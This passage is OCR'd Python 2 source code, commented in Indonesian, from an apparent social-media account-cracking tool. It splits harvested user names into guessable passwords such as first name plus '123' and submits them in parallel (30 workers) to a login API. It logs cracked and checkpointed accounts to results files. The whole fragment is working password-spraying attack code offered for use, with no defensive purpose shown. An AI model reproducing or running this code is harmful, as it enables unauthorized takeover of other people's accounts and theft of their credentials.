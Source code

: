                 except:

                    pass

                print '\r  %s* --> %s|%s                %s' % (K,user,pw,N)

                wrt = ' [×] %s|%s' % (user,pw)

                cp.append(wrt)

                open('results/CP-%s-%s-%s.txt' % (ha, op, ta), 'a').write('%s\n' % wrt)

                break

            else:

                continue

        loop += 1

    def __pler__(self):

        yan = raw_input('\n [*] method : ')

        if yan == '':

            print '\n %s[%s×%s] jangan kosong bro'%(N,M,N);self.__pler__()

        elif yan in ('1', '01'):

            print '\n [%s+%s] hasil OK disimpan ke -> results/OK-%s-%s-%s.txt'%(O,N,ha, op, ta)

            print ' [%s+%s] hasil CP disimpan ke -> results/CP-%s-%s-%s.txt'%(O,N,ha, op, ta)

            print '\n [%s!%s] anda bisa mematikan data selular untuk menjeda proses crack\n'%(M,N)

            with YayanGanteng(max_workers=30) as (__yayanXD__):

            	for yntkts in self.id: # Yo Ndak Tau Kok Tanya Saia

                    try:

                        name, uid = yntkts.split('<=>')

                        xz = name.split(' ')

                        if len(xz) == 3 or len(xz) == 4 or len(xz) == 5 or len(xz) == 6:

                            pwx = [name, xz[0]+"123", xz[0]+"12345"]

                        else:

                            pwx = [name, xz[0]+"123", xz[0]+"12345"]

                        __yayanXD__.submit(self.__api__, uid, pwx)

                    except:

                        pass

            os.remove(self.apk)

            hasil(ok,cp)

        elif yan in ('2', '02'):
